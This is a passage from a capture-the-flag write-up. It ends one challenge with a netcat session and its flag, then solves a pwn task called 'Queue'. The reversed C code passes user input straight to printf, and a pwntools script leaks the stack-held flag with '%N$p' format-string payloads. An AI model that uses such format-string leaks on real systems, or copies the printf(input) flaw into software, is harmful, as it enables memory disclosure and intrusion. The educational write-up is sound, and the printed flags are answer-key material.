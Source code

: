 ```bash
$ nc challs.actf.co 31403
How many bananas do I have?
103 bananas
actf{baaaaannnnananananas_yum}
```
{: .nolineno }


# Pwn
## Queue
```
I just learned about stacks and queues in DSA!

nc challs.actf.co 31322

queue
```
We are given a binary, but no source code.
Reversing the binary we see that the main function looks something like the following
```c
void main(){
    char flag[136];
    char input[48];

    FILE *flag_txt = fopen("flag.txt", "r");
    if(flag_txt  == NULL){
        puts("Error: missing flag.txt");
        exit(1);
    }

    fgets(flag, 0x80, flag_txt);
    printf("What did you learn in class today? ");
    fgets(input, 0x30, stdin);
    printf("Oh nice, ");
    printf(input);
    printf("sounds pretty cool!");
}
```
The flag is read into a buffer on the stack, then the program asks for our input, and then it prints our input. When it prints our input with `printf(input);` it is missing the format specifier, making this program vulnerable to a format string attack.

We can fuzz the different locations on the stack, eventually finding parts of the flag which we assemble together

The payload script using pwntools ended up like this
```python
flag = ""
for i in range(1,20):
    io = start()
    io.recvuntil(b"today?")
    io.sendline(f"%{i}$p".encode())
    try:
        data = io.recvline().split(b",")[1].decode().strip()[2:]
        flag += binascii.unhexlify(data).decode()[::-1]
    except:
        pass
    io.close()
print(flag)
```
{: file="exploit.py" }
